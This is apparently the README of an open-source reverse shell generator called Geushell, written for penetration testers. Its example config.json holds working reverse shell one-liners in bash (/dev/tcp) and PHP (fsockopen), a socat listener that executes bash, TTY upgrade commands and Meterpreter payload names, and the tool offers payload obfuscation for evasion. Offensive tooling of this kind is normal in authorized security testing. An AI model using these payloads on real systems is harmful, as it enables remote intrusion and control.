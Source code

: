 # Geushell - Your Comprehensive Reverse Shell Generator

## Overview
**Geushell** is an advanced tool designed to simplify the generation of reverse shells for penetration testers and cybersecurity enthusiasts. With its user-friendly interface and robust functionality, Geushell helps users quickly create, customize, and execute reverse shell payloads across various platforms, complete with built-in listeners and TTY upgrade methods.

## Features
- **Diverse Payloads**: Generate reverse shells for popular platforms and languages, including Bash, Python, PHP, Ruby, PowerShell, and more.
- **Metasploit Integration**: Support for common Metasploit payloads to facilitate rapid testing.
- **Customizable Options**: Encode or obfuscate generated payloads for better evasion.
- **Built-in Listeners**: Easily start `nc`, `socat`, or `msfconsole` listeners.
- **TTY Upgrade Methods**: Multiple ways to upgrade shells to TTY for enhanced control.
- **History Management**: Save and load configuration history for repeated use.

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/S2K7x/geushell.git
   cd geushell
   ```
2. Install required Python packages:
   ```bash
   pip install -r requirements.txt
   ```
3. Ensure **Geushell** has permission to run:
   ```bash
   chmod +x geushell.py
   ```

## Configuration
Geushell loads its configuration from a `config.json` file, which defines reverse shell templates, Metasploit payloads, TTY upgrade methods, and listener commands. Make sure this file is located in the same directory as the main script.

Example `config.json`:
```json
{
  "reverse_shells": {
    "bash": "bash -i >& /dev/tcp/{}/{} 0>&1",
    "python": "python3 -c 'import socket,subprocess,os; ...'",
    "php": "php -r '$sock=fsockopen(\"{}\",{});exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
  },
  "metasploit_payloads": {
    "linux_meterpreter": "linux/x64/meterpreter/reverse_tcp",
    "windows_meterpreter": "windows/meterpreter/reverse_tcp"
  },
  "tty_upgrade_methods": [
    "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'",
    "echo os.system('/bin/bash')",
    "script /dev/null -c bash"
  ],
  "listeners": {
    "nc": "nc -lvnp {}",
    "socat": "socat TCP-LISTEN:{},reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sane"
  },
  "history_file": "~/.geushell_history.json"
}
```

## Usage
Run Geushell with the following command:
```bash
python3 geushell.py
```

### Basic Workflow
1. **Enter target IP and port**.
2. **Select a reverse shell type**.
3. **Choose to encode or obfuscate** the payload (optional).
4. **Generate the reverse shell**.
5. **Start a listener** for the target connection.
6. **Upgrade the shell to TTY** for better interaction (optional).

### Example Session
```plaintext
[*] Enter target IP: 192.168.1.10
[*] Enter target port: 4444
[*] Available Shells:
[1] bash
[2] python
[3] php
[*] Choose a reverse shell: 2
[+] Generated Reverse Shell:
python3 -c 'import socket,subprocess,os; s=socket.socket(...)
[*] Upgrade to TTY? (y/n): y
[+] Run this TTY upgrade:
python3 -c 'import pty; pty.spawn("/bin/bash")'
[*] Choose listener (nc/socat/msfconsole): nc
[*] Starting listener with:
nc -lvnp 4444
```

## Contributing
Contributions are welcome! Please fork the repository and submit a pull request.

## License
This project is licensed under the MIT License.

## Disclaimer
**Geushell** is intended for legal and ethical use only. Ensure you have proper authorization before using this tool in any penetration testing scenarios.

---
Thank you for using **Geushell**! We hope it becomes a valuable asset in your security toolkit.


